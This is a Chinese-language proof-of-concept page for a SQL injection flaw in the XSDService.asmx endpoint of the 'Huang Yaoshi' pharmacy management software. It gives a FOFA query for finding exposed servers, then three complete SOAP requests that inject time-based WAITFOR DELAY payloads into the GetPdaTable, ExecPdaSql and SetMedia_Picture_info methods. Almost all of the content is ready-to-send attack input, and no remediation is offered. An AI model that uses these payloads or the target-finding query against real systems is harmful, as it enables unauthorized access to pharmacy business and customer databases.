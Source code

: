 # 药业管理软件XSDService.asmx存在SQL注入漏洞

《黄药师》药业管理软件是一款针对我国医药或医疗器械企业经营管理特点而设计的综合管理软件。《黄药师》系列管理软件集进销存、财务、经营分析和GSP管理为一体，从企业经营的各个环节对资金流、物流、信息流等进行系统的管理。它采用“一看就懂，一学就会，一用就灵”的开发理念，人机界面友好，易学易用，能满足各类零售药店、连锁配送药店、批发公司以及集团化企业、事业行政单位、大型企业和中小型企业的业务管理需要。

## fofa

```javascript
body="XSDService.asmx"
```

## poc

```javascript
POST /XSDService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetPdaTable"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetPdaTable xmlns="http://tempuri.org/">
      <sql>;WAITFOR DELAY '0:0:5'--</sql>
    </GetPdaTable>
  </soap:Body>
</soap:Envelope>
```

```xml
POST /XSDService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/ExecPdaSql"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <ExecPdaSql xmlns="http://tempuri.org/">
      <sql>;WAITFOR DELAY '0:0:5'--</sql>
    </ExecPdaSql>
  </soap:Body>
</soap:Envelope>
```

```xml
POST /XSDService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/SetMedia_Picture_info"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetMedia_Picture_info xmlns="http://tempuri.org/">
      <info_id>1';WAITFOR DELAY '0:0:5'--</info_id>
      <info_file_name>string</info_file_name>
      <info_data>base64Binary</info_data>
    </SetMedia_Picture_info>
  </soap:Body>
</soap:Envelope>
```



![image-20241128094249866](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280943235.png)